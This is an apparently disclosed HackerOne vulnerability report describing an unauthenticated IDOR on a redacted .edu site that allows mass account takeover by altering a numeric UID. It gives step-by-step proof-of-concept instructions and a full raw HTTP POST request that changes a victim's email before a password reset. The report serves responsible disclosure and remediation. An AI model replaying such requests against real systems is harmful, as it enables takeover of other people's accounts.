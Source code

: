 # Unauth IDOR to mass account takeover without user interaction on the ███████ (https://███████.edu/)

## Report Details
- **Report ID**: 685338
- **URL**: https://hackerone.com/reports/685338
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-08-31T01:28:06.298Z
- **Disclosed**: 2024-07-19T14:29:39.972Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
During poking around █████/24 range - AS257 ██████ looking for the Cisco devices, I came across virtual host https://██████████.edu/ on the ██████████
While it's a not .mil host, it's likely related to the DoD since it hosted in the DoD-controlled ASN.

I discovered IDOR possibility to mass accounts takeover just by altering a numeric ID.
Resource seems to have ~320 000 accounts (the users ID is incremental and started for me from 320573), and all of them can be taken over with simple automation.

##POC
1) You need to register some test accounts using:
████
Make sure your password are not too long (resource can strip it). Something like 6-7 chars should be ok.
2) When registering, monitor the requests. Once you press the final "Register" button, the request to the 
https://██████.edu/chkUser.aspx endpoint wil be issued.
Write down the numeric `UID` parameter in the response.
████████
3) Login with your account to check it works.
4) Logout .
5) Issue next unauth POST request (replace `UID` parameter by your numeric UID you noted earlier):
```
POST /chkUser.aspx HTTP/1.1
Host: ██████.edu
Connection: keep-alive
Accept: */*
Origin: https://██████████.edu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Referer: https://████.edu/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,ru;q=0.9,en-US;q=0.8,uk;q=0.7
Content-Length: 281
Content-Type: application/x-www-form-urlencoded

dummy=&sendingForm=6&UID=[YOUR_ID_HERE]&last=test&midd=&frst=test&serv=test&mail=dummyemail@dummy.tld&tLang=&course=1&school=Other+non-Government&other&freq=Rarely&test=1&reading_score=&listening_score=aaa&speaking_score=aaa&test_taken=Other&other_test=test&when=more+than+a+year+ago
```
6) Your email will be changed to the `dummyemail@dummy.tld`
You can login with this email and your password to check it works. You will be unable to login with old email.
Attacker may use it flaw to point account to his email and then initiate password reset.

Note, that endpoint is also vulnerable to the CSRF in same time, since there is no any CSRF protection (it worth to fix tho), but I'm reporting here IDOR since it poses much more risks.

##Notes
In terms of transparency I should notify that during testing, I accidentally could affect single account with ID `320572` (my accounts were `320573`, `320574` and `320575`).
I never expected that unauth request will actually work, and instead incrementing my ID I accidentally decremented it and likely changed someone's email to the `test@test.test`. This user will likely be unable to login, so it worth to identify him and giving this email (or restore original) so he/she will be able to login (password was unchanged, and I didn't access account itself). I have no evidence does this account active, inactive or ever exist, just notify that it **could** be affected.

##Suggested fix
Check that UID belongs to the current user session, or better drop this parameter at all, and allow to change the user data based on the current authenticated session.

## Impact

Takeover any user account without interaction by changing the email via numeric ID. Attacker can after initiate password reset and authorize on behalf of the victim.
The endpoint is also vulnerable to the CSRF.

## Attachments
No attachments
